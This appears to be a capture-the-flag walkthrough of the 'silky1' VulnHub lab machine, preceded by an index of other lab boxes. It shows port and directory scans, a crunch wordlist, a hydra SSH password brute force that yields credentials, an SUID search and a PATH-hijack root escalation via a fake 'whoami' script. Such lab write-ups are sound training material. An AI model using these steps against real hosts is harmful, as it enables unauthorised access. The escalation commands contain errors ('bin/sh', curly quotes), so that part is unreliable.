Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
silky1

Nmap scan report for 192.168.56.104
Host is up (0.00011s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:DB:28:2B (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.104
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-29 20:51 EDT
Nmap scan report for 192.168.56.104
Host is up (0.00036s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 49:e6:fa:4c:d5:60:06:3b:c0:a8:c9:cc:00:10:7e:04 (RSA)
| 256 29:1b:39:69:32:aa:ae:9f:72:83:29:d4:27:db:f8:af (ECDSA)
|_ 256 a0:05:9e:82:bc:9d:09:ce:8e:c5:40:b2:b2:93:c6:53 (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/notes.txt
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:DB:28:2B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.37 ms 192.168.56.104
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.24 seconds

Google Translate:
I absolutely have to remove the password from the page, after all, the last 2 characters are missing. But still.

root@kali:~# dirb http://192.168.56.104/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Tue Oct 29 20:59:07 2019
URL_BASE: http://192.168.56.104/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.104/ ----
+ http://192.168.56.104/index.html (CODE:200|SIZE:10749)
==> DIRECTORY: http://192.168.56.104/manual/
+ http://192.168.56.104/robots.txt (CODE:200|SIZE:92)
+ http://192.168.56.104/server-status (CODE:403|SIZE:302)



// s1lKy
root@kali:~# crunch 7 7 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -o silky_wl.txt -t s1lKy@@
Crunch will now generate the following amount of data: 70688 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 8836
crunch: 100% completed generating output
root@kali:~#

root@kali:~# hydra -l silky -P silky_wl.txt ssh://192.168.56.104

Credentials:
[22][ssh] host: 192.168.56.104 login: silky password: s1lKy#5

find / -perm -u=s -type f 2>/dev/null


Seide ist ein tierischer Faserstoff. Sie wird aus den Kokons der Seidenraupe, der Larve des Seidenspinners, gewonnen.
gezeichnet:
root
Translated:
Silk is an animal pulp. It is extracted from the cocoons of the silkworm, the larva of the silk moth.
drawn:
root
ran: strings /usr/bin/sky

-> is running whoami
→ create a new bash script named whoami, and write /bash/sh inside it
→ and change its permissions to be executable
→ insert the directory in which this script located in to the PATH environment variable and tun the script to get the root privilege.
echo “bin/sh” > /tmp/whoami
chmod +x /tmp/whoami
export PATH=/tmp:$PATH
echo $PATH
/usr/bin/sky